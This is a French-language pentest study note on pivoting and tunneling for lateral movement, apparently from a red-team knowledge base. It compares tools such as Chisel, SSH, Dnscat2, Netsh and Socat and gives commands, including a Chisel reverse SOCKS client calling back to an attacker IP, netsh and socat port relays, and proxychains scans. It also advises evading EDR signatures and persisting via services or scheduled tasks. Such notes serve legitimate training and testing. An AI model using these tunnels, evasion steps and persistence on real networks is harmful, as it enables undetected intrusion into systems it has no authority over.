

Ce document présente une analyse technique des méthodes de pivoting et de tunneling utilisées lors de la phase de **Lateral Movement**.



## Tableau comparatif des méthodes

| Méthode | Type de Tunnel | Transport | Avantages | Inconvénients | Usage Typique |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **SSH Port Forwarding** | Forward / Reverse | TCP | Sécurisé, natif Linux | Nécessite accès SSH | Accès services internes |
| **SOCKS avec SSH** | SOCKS Proxy | TCP | Flexible, multi-outils | Détectable (SSH) | Pivoting général |
| **Plink** | Forward / Reverse | TCP | Solution Windows | Requiert PuTTY | Alternative SSH Windows |
| **SShuttle** | VPN-like Tunnel | TCP | Pas de root, rapide | Pas d'UDP | Accès réseau complet |
| **Rpivot** | SOCKS Proxy | HTTP(S) | Contourne restrictions | Dépend de Python 2.7 | Pivot via serveur web |
| **Netsh Port Forwarding** | Port Forwarding | TCP | Natif Windows | Requiert admin | Redirection locale |
| **Socat** | Forward / Reverse | TCP/UDP | Très flexible | Installation requise | Tunnels complexes |
| **Dnscat2** | DNS Proxy | DNS | Discret, pare-feu | Latence élevée | Exfiltration/C2 |
| **Chisel** | Reverse SOCKS Proxy | HTTP(S) | Léger, rapide | Logs HTTP | Tunnel TCP/UDP |
| **SocksOverRDP** | SOCKS Proxy | RDP | Exploite RDP | Lent | Pivot via RDP |
| **ICMP Tunneling** | ICMP Proxy | ICMP | Contourne pare-feu | Débit faible | Restrictions TCP/UDP |
| **ProxyChains** | Proxy Chaining | Variable | Anonymisation | Performance variable | Chaining de proxys |

## Exemples de syntaxe concrète

### Chisel
Déploiement d'un serveur sur la machine attaquante et connexion depuis la cible :

```bash
# Serveur (Attaquant)
./chisel server -p 8000 --reverse

# Client (Cible)
./chisel client <IP_ATTAQUANT>:8000 R:socks
```

### SSH Dynamic Port Forwarding
Utilisation de **SSH** pour créer un proxy SOCKS local :

```bash
ssh -D 1080 -N -f user@<IP_CIBLE>
```

### Netsh (Port Forwarding)
Redirection d'un port local vers une machine interne :

```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<IP_INTERNE>
```

### Socat (Relay)
Création d'un tunnel TCP bidirectionnel :

```bash
socat TCP-LISTEN:8080,fork TCP:<IP_CIBLE>:80
```

## Méthodologie de choix de l'outil

Le choix de l'outil dépend de la configuration réseau et des accès obtenus lors de l'énumération réseau (**Network Enumeration**). 

1. **Environnement Linux** : Privilégier **SSH** ou **SShuttle** pour leur intégration native.
2. **Environnement Windows** : Utiliser **Netsh** pour une approche "living-off-the-land" ou **Plink** si un accès SSH est disponible.
3. **Contournement de pare-feu** : Utiliser **Chisel** ou **Dnscat2** pour encapsuler le trafic dans des protocoles autorisés (HTTP/DNS).
4. **Stabilité** : Pour des sessions longues, privilégier des outils supportant la reconnexion automatique (ex: **Chisel**).

## Considérations sur la détection (EDR/IDS)

> [!danger] Risque de détection
> Le trafic généré par les tunnels est souvent scruté par les solutions d'EDR et d'IDS. Le tunneling via HTTP/DNS est particulièrement surveillé par les logs de trafic.

*   **Analyse de flux** : Les tunnels SSH/Chisel génèrent des connexions persistantes atypiques. Utiliser des ports standards (80/443) pour masquer le trafic.
*   **Signatures** : Les outils comme **Dnscat2** ou **Chisel** possèdent des signatures connues. L'utilisation de versions compilées manuellement ou de wrappers personnalisés est recommandée.
*   **Logs** : Le tunneling via **Netsh** laisse des traces dans la configuration système (registres).

## Gestion des sessions et persistance

La gestion des sessions est critique pour maintenir un accès stable lors du **Pivoting**.

*   **Persistance** : Sur Windows, l'utilisation de services (`sc create`) ou de tâches planifiées (`schtasks`) permet de relancer le binaire de tunneling au redémarrage.
*   **Stabilité** : Utiliser `tmux` ou `screen` côté attaquant pour maintenir les processus de tunneling actifs en cas de déconnexion de la session SSH principale.
*   **Monitoring** : Vérifier régulièrement l'état des sockets avec `netstat -ano` ou `ss -tulpn` pour s'assurer que le tunnel est toujours actif.

## Exemples de commandes de test de connectivité

Pour valider le tunnel, l'utilisation de **proxychains** est recommandée pour forcer le trafic des outils d'énumération à travers le proxy SOCKS :

```bash
# Test de connectivité via proxychains
proxychains nmap -sT -Pn -p 80,443 <IP_CIBLE>

# Test de résolution DNS via proxychains
proxychains dig google.com

# Vérification de la connexion au proxy SOCKS
curl -v -x socks5://127.0.0.1:1080 http://<IP_CIBLE>
```

## Considérations opérationnelles

> [!warning] Prérequis et limitations
> Certaines méthodes comme **Netsh** nécessitent des privilèges élevés sur la machine cible. La stabilité de la connexion est critique pour le maintien du tunneling lors de mouvements latéraux.

> [!info] Performance
> Le choix de l'outil doit tenir compte du protocole de transport. Les tunnels basés sur le protocole DNS présentent une latence élevée, tandis que **Chisel** ou **SSH** offrent des performances supérieures pour le transfert de données.

## Liens associés

- **Pivoting**
- **Tunneling**
- **Port Forwarding**
- **Network Enumeration**